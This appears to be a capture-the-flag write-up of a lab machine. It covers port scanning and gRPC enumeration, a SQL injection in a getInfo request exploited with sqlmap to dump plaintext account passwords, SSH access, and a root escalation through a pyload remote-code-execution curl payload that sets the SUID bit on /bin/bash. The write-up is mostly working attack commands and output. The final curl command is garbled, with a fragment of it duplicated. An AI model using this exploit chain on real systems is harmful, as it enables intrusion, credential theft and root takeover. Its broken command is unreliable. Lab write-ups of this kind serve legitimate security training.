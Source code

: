 # Recon

All-tcp scan:

```sh
> nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.214 -Pn
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown
```
Detailed scan:

```sh
 > nmap -p 22,50051 -sVC --min-rate 10000 -oA scans/nmap-tcpdetail 10.10.11.214 -Pn
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown
```

Sadly, it didn't yield any interesting data. Let's try to connect to it.

After a lot of tinkering and googling this command finally yielded something:

```sh
> ./grpcurl -plaintext 10.10.11.214:50051 describe
SimpleApp is a service:
service SimpleApp {
  rpc LoginUser ( .LoginUserRequest ) returns ( .LoginUserResponse );
  rpc RegisterUser ( .RegisterUserRequest ) returns ( .RegisterUserResponse );
  rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );
}
grpc.reflection.v1alpha.ServerReflection is a service:
service ServerReflection {
  rpc ServerReflectionInfo ( stream .grpc.reflection.v1alpha.ServerReflectionRequest ) returns ( stream .grpc.reflection.v1alpha.ServerReflectionResponse );
}
```

# Shell as user

To be able to use api easily, we can use following command:

```sh
./grpcui -plaintext 10.10.11.214:50051
gRPC Web UI available at http://127.0.0.1:43575/
```

Then, we can see that we have following options:  
- create user  
- login  
- get user info  

Login and create was tested against some common sql injection 
payloads, but with no result. I thought that maybe there IDOR
vulnerablility for id field, but it seems there is SQLi instead,
with following request:

```req
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: localhost:43575
Content-Length: 192
sec-ch-ua: "Chromium";v="105", "Not)A;Brand";v="8"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/json
Accept: */*
X-Requested-With: XMLHttpRequest
x-grpcui-csrf-token: tsTeJO7dEmW6K5AcUlKvDw8aBfNTQzRd95ai-ByoV0o
sec-ch-ua-platform: "Linux"
Origin: http://localhost:43575
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:43575/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _grpcui_csrf_token=tsTeJO7dEmW6K5AcUlKvDw8aBfNTQzRd95ai-ByoV0o
Connection: close

{
  "metadata":[
    {
      "name":"token",
      "value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9
      .eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4NTQ4MzI4M30
      .1fL_aO451Xj4RtrQC685MZ-xPGvcYSpQvMo-WgirOG0"
      }
    ],
    "data":[{"id":"790"}]}
```

Using sqlmap on this request:

```sh
> sqlmap -r info.req --batch --threads 10 --tables
+----------+
| accounts |
| messages |
+----------+
> sqlmap -r info.req --batch --threads 10 -T accounts --dump
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
| test                   | test     |
+------------------------+----------+
```

We can now ssh as user sau.

User flag:
```
d89**************************eae
```

# Shell as root

Running linpeas, we can see two interesting things.
There is pyload application run by root:

```
root    /usr/bin/python3 /usr/local/bin/pyload
```

Scanning internal network, there is port 8000 nad 9666, which leads to pyload site:

```bash
> (netstat -punta || ss --ntpu)
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -
tcp        0      0 10.10.11.214:22         10.10.14.12:52294       ESTABLISHED -
tcp        0    612 10.10.11.214:22         10.10.14.12:49264       ESTABLISHED -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::50051                :::*                    LISTEN      -
tcp6       0      0 10.10.11.214:50051      10.10.14.12:43086       ESTABLISHED -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

Simple google for pyload vulnerabilities leads us to following rce exploit:

```bash
> curl -i -s -k -X $'POST' \
    --data-binary  \
      $'jk=pyimport%20os;os.system( \
          \"chmod%20%2Bs%20%2Fbin%2Fbash\"); \
          f=function%20f2(){}; \
          &package=xxx&crypted=AAAA&&passwords=aaaa' \
      $'http://localhost:8000/flash/addcrypted2'asswords=aaaa' \
      $'http://localhost:8000/flash/addcrypted2'
> /bin/bash -p
```


After running commands above, we get root access.

Root flag:
```
866**************************916
```
